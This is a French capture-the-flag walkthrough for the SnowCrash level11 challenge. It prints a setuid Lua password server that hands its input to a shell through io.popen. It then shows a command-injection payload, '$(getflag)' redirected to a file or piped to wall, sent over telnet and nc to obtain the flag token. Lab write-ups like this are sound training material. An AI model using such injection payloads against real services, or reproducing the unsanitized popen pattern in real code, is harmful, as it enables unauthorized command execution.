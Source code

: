 ```shell
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ file level11.lua
level11.lua: setuid setgid a lua script, ASCII text executable
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
Ce code est écrit en Lua et il implémente un serveur simple qui écoute sur le port 5151 de l'adresse IP 127.0.0.1. Le serveur demande à l'utilisateur d'entrer un mot de passe, le hache en utilisant la fonction "hash", et le compare à une chaîne de hachage spécifique.

La fonction "hash" utilise le programme sha1sum pour calculer le hash SHA-1 du mot de passe entré par l'utilisateur. La fonction retourne la chaîne de hachage SHA-1 de longueur 40 caractères.

Le serveur est mis en boucle infinie avec une instruction "while 1 do". Pour chaque connexion client, il attend que l'utilisateur entre un mot de passe. Si le mot de passe entré correspond à la chaîne de hachage spécifique, le serveur envoie un message "Gz you dumb*" (félicitations, tu es idiot) au client, sinon, il envoie un message "Erf nope..\n" (désolé, mot de passe incorrect).

La faille est dans io.popen:
La fonction io.popen() en Lua est utilisée pour ouvrir un processus en mode lecture ou écriture. Elle prend en entrée une chaîne de caractères qui spécifie la commande à exécuter et le mode d'ouverture.

en mettant une commande getflag qui fait une sortie dans un fichier temporaire ça marche:
```shell
telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: $(getflag) > /tmp/token
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

ou 
```shell
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) | wall
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 14:46 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
```
